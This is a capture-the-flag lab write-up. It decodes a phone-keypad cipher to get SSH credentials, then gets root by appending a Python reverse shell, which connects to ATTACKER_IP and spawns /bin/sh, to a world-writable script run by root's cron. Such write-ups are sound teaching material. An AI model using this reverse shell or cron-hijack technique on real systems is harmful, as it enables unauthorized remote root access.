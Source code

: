 And we now have a message to decode:

> 55 444 3 6 2 66 7777 7 2 7777 7777 9 666 777 3 444 7777 7777 666 7777 8 777 2 66 4 33

I just pasted this into the search bar of my browser)))0))0))0)0))

The search engine showed a couple of similar challenges, where you were supposed to
decrypt similar messages, using an old mobile phone keyboard layout:

|  |  |  |
| --- | --- | --- |
| 1 ~ | 2 abc  | 3 def |
| 4 ghi | 5 jkl | 6 mno |
| 7 pqrs | 8 tuv | 9 wxyz |

> ...s password is ...

---

## *Go capture the flag*

Login to ssh using these credentials. ***NOTE***: Password is all uppercase.

#### *user.txt*

user.txt is right there, just `cat` it

#### *root.txt*

We'll start with a simple enumeration:

> `cat /etc/crontab`

- */2 * * * * root python3 /var/.the_eye_of_ruvik.py

Let's take a look at the file

> `cd /var/`
>
> `ls -la | grep eye`

- -rwxr-xrw-  1 root root    300 Aug 14  2020 .the_eye_of_ruvik.py

Ok, let's append python reverse shell there and wait for 2 minutes.

```
import socket,os,pty;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("ATTACKER_IP",8000));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
pty.spawn("/bin/sh");
```

That's it! Frankly, privilege escalation was the easiest part of this room.

#### *Defeat ruvik (Optional)*

Just delete his account. In you root terminal:

> `userdel ruvik`
